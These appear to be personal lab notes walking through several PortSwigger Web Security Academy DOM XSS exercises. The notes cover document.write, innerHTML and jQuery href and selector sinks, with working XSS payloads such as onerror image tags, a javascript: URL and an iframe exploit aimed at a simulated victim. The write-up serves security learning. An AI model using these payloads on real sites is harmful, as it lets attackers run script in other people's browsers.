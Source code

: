 2. Copy the canary into the search bar and submit request
3. DOM Invader gives us the following value in the Sink
```
<img src="/resources/images/tracker.gif?searchTerms=yldsyqn9">
```
4. Craft a payload to break out of the HTML tag and start a new scriptable context
```
"><img src=x onerror=alert(document.domain)>
```
- `">` closes of the tag our input was inserted into before
# DOM XSS in `innerHTML` sink using source `location.search`
1. Open DOM Invader > Copy Canary > Post into search bar
2. Our input is being fed into the sink `element.innerHTML`
```
<span id="searchMessage"></span>
```
3. Craft payload to break out of the HTML tag
```
"><img src=x onerror=alert(document.domain)>
```
# DOM XSS in jQuery anchor `href` attribute sink using `location.search` source
1. Open DOM Invader > Copy Canary > navigate to Submit Feedback feature in app
2. In the URL, there is a `returnPath` parameter > Submit canary token and see DOM Invader identifies this
	1. Follow the stack trace and see that the page uses the `attr()` function which can change the DOM
	2. Inspect the `<Back` button in the HTML and see our input is returned in the HTML and inside a `href` attribute
3. Submit a malicious payload inside the `href` attribute
```
https://<SNIP>.web-security-academy.net/feedback?returnPath=javascript:alert(document.domain)
```
# DOM XSS in jQuery selector sink using a hashchange event
- Deliver exploit to victim
1. Open web root
2. Identify script in HTML source
```html
<script>
$(window).on('hashchange', function(){
	var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
	if (post) post.get(0).scrollIntoView();
});
</script>
```
- We can trigger a hash-change event by providing a h2 heading value
3. Inspect the HTML source for a `<h2>` heading value e.g. `No Silly Names, Please`
4. Scroll to the top of the document and construct the following malicious URL
```
https://<SNIP>.web-security-academy.net/#No Silly Names, Please onload=this.src ='<img src=x onerror=alert(document.domain)>'">
```
5. Use the URL in your own browser and confirm the payload triggers alert function
6. Exploit server
7. Construct the following payload
```html
<iframe src="https://0aff00970402ea8d80f2032c004c0072.web-security-academy.net/#Scams" onload="this.src+='<img src=x onerror=print(document.domain)>'">
```
- Scams was a shorter `<h2>` heading that I used
- Deliver exploit to victim